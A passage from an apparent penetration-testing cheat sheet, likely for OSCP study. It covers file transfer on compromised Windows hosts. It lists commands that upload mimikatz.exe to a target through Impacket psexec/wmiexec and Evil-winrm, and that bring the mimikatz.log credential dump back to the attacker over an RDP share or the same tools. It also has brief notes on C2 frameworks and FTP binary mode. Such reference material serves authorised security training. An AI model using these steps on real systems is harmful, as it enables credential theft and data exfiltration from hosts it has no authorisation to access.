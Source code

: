 On Windows:
`C:\> copy mimikatz.log \\tsclient\test\mimikatz.log`

<a name="impacket-tools"></a>
### Impacket tools
>psexec and wmiexec are shipped with built in feature for file transfer.
Note: By default whether you upload (lput) or download (lget) a file, it'll be writte in C:\Windows path.
Uploading mimikatz.exe to the target machine:

`C:\Windows\system32> lput mimikatz.exe`

	[*] Uploading mimikatz.exe to ADMIN$\/
	
`C:\Windows\system32> cd C:\windows`
`C:\Windows> dir /b mimikatz.exe`

Downloading mimikatz.log:
`C:\Windows> lget mimikatz.log`

	[*] Downloading ADMIN$\mimikatz.log

<a name="evil-winrm"></a>
### Evil-winrm
Uploading files:
`upload mimikatz.exe C:\windows\tasks\mimikatz.exe`

Downloading files:
`download mimikatz.log /home/kali/Documents/pen-200`

<a name="c2-frameworks"></a>
### C2 frameworks
> Almost any of the C2 frameworks such as Metasploit are shipped with downloading and uploading functionality.

<a name="ftp"></a>
### FTP
Binaries in ASCII mode will make the file not executable. Set the mode to binary.
